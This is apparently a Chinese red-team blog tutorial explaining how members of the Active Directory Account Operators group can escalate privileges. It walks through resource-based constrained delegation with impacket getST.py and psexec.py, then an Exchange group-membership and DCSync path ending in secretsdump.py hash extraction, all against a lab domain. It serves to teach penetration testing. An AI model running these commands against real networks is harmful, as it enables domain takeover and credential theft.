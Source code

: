 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/AlD3nWvhns_UeS43laT3Zw)

  
![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucCgvIMaxEuUH2UlN1dB1eRJibSrenep4vU6AgLfmicMSXgY4YwWx36voAicBE9fQP7FMELsUz3snNxicWQ/640?wx_fmt=png)

**利用 Account Operators 组实现接管域控或权限提升**

****目录****

        利用基于资源的约束性委派进行权限提升

        Write Dcsync Acl dump 域内哈希接管域控

* * *

     在域渗透的过程中，我们往往只会关注 Domain admins 组和 Enterprise Admins 组，而会忽略了其它组。今天，我们要讲的是 Account Operators 组。该组是内置的本地域组。该组的成员可以创建和管理该域中的用户和组并为其设置权限，也可以在本地登录域控制器。但是，不能更改属于 Administrators 或 Domain Admins 组的账号，也不能更改这些组。在默认情况下，该组中没有成员。也就是说，该组默认是域内管理用户和组的特殊权限组。可以创建和管理该域中的用户和组并为其设置权限，也可以在本地登录

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUI4JMjnUSmHnPfpicZUib4EpPUycD4SpL0A0jjUhew5SEdeTg9zfKibZBA/640)  

    在实际环境中，某些企业会有专门的管理用户账号的账号，这些账号就会分配在 Account Operators 组中。在渗透过程中，如果我们发现已经获得权限的用户在该组中的话，我们可以利用其特殊权限进行 dump 域内哈希或本地权限提升。

  

利用基于资源的约束性委派进行权限提升

域内如果域内没有安装 Exchange 服务器的话，我们可以利用基于资源的约束性委派攻击除域控外的域内其他所有机器，获取这些机器的本地最高权限。

查看 Account Operators 组内用户，发现 hack 用户在内。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUdVviaf1ZyrogvMm4N7zw6CA58EL5fbKXqgic3CtJficpzPGVMWpIxic1FQ/640)

    我们获取到了某台机器的权限，当前登录用户为 hack，但是 hack 并不在本地机器的管理员组中。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUjhRKHraEM3NNF72vV5Fcez7Unm0lyStXBnMicVSg3H0U5icN9UAjYzgQ/640)

于是我们可以新建机器账号，然后配置机器账号到指定主机的基于资源的约束性委派

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUpgNqn8sLibroicLUEzkDN9gUamAtFBTtZQCJfYOO5iaMiaoc17O7XRUvNA/640)  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUKMl7cV92CmedAW57BNQzQpw2fS2t1WiaGjDicvCwUdVFNgelFyhwaIJA/640)               最后利用新建的机器账号模拟 administrator 用户访问指定主机的 cifs 协议生成票据，导入票据后，就获取了目标机器的最高权限。

```
python3 getST.py -dc-ip 10.211.55.4 xie.com/test:root -spn cifs/win7.xie.com -impersonate administrator
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass win7.xie.com
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUA3hya5Y5DzJVYGcgaCv9eQJfoVAmU2PgicRntibljHcDDSg3kfl1Yb8g/640)

  

Write Dcsync Acl dump 域内哈希接管域控

    如果域内安装了 Exchange 服务器的话，我们可以将指定用户添加到 Exchange Trusted Subsystem 组中，由于 Exchange Trusted Subsystem 用户组又隶属于 Exchange Windows Permissions。Exchange Windows Permissions 这个组默认对域有 WriteACL 权限。因此我们可以尝试使用 WriteACL 赋予指定用户 Dcsync 的权限。  

查看 Account Operators 组内用户，发现 hack 用户在内。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUdVviaf1ZyrogvMm4N7zw6CA58EL5fbKXqgic3CtJficpzPGVMWpIxic1FQ/640)

    我们获取到了某台机器的权限，当前登录用户为 hack，但是 hack 并不在本地机器的管理员组中。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUjhRKHraEM3NNF72vV5Fcez7Unm0lyStXBnMicVSg3H0U5icN9UAjYzgQ/640)

将 hack 用户自身加入到 Exchange Trusted Subsystem 组中

```
net group "Exchange Trusted Subsystem" hack /add /domain
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQU7P5UPses0qfJMoQjLxBCAh1ykPvdbF8O3KoydOqhxibI6Y13sUHl3hw/640)

注意，这里需要将 hack 用户先在当前机器注销一下，重新登录。或者登录其他机器。

然后赋予 hack 用户自身 dcsync 权限

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUO2Mln5D2GxxhDy3eRbGPiaveodZ8MRQKgtmYfGx3QibsC7zDjBxjJKkA/640)

使用 hack 用户 dump 域内任意用户哈希，即可接管整个域。

```
python3 secretsdump.py xie.com/hack:P@ss123@10.211.55.4 -dc-ip 10.211.55.4 -just-dc-user administrator
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUG0ovnR4rUQNcfXql2faHpLcXT7smdfNvTiblNnREwHcl7Yph1aibRD6A/640)

@深蓝攻防实验室

如果想跟我一起讨论，那快加入我的知识星球吧！https://t.zsxq.com/7MnIAM7

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2eKvY8jwoT7yxMvHfscqNQUJ2ed5fxYvws9QrsiaaXtMqRxaiaWFryhXYVpiaDxVUPA2vBQvj0G0uKicQ/640)
